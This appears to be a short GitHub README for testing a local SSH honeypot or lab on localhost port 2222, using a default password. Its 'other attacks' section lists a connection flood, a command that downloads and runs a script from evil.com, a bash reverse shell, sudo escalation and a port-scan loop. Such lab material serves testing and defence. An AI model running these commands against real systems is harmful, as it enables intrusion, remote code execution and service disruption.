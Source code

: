 "# HACK-" 
open cmd : to login 
ssh admin@localhost -p 2222

try worng passwords 
correct password :password

once login try : 

<img width="465" height="457" alt="image" src="https://github.com/user-attachments/assets/e1ff4779-e72b-420d-a613-dd4a13f253c3" />

<img width="605" height="369" alt="image" src="https://github.com/user-attachments/assets/4aa931a3-a8cc-4cdd-8e4c-cbbd13d9c178" />

in cmd if the following error occurs 

""""" @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
SHA256:0c20MU9M8La+J3A0ZHkPyid89qFn3zJfkqB5gorgKUk.
Please contact your system administrator.
Add correct host key in C:\\Users\\Dell/.ssh/known_hosts to get rid of this message.
Offending RSA key in C:\\Users\\Dell/.ssh/known_hosts:1
Host key for [localhost]:2222 has changed and you have requested strict checking.
Host key verification failed.  """""

try : ssh-keygen -R "[localhost]:2222"
then again : ssh admin@localhost -p 2222


other attacks :
Connection Flood:
for /L %i in (1,1,10) do start ssh admin@localhost -p 2222

Malicious Command Injection:
ssh admin@localhost -p 2222 "wget http://evil.com/script.sh -O /tmp/script.sh; chmod +x /tmp/script.sh; /tmp/script.sh"

Reverse Shell Attempt:
ssh admin@localhost -p 2222 "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"

Sudo Privilege Escalation:
ssh admin@localhost -p 2222
# Then in session: sudo su

Port Scanning:
for /L %i in (1,1,100) do (
  timeout 1 ssh admin@localhost -p %i 2>nul && echo Port %i is open || echo Port %i is closed
)

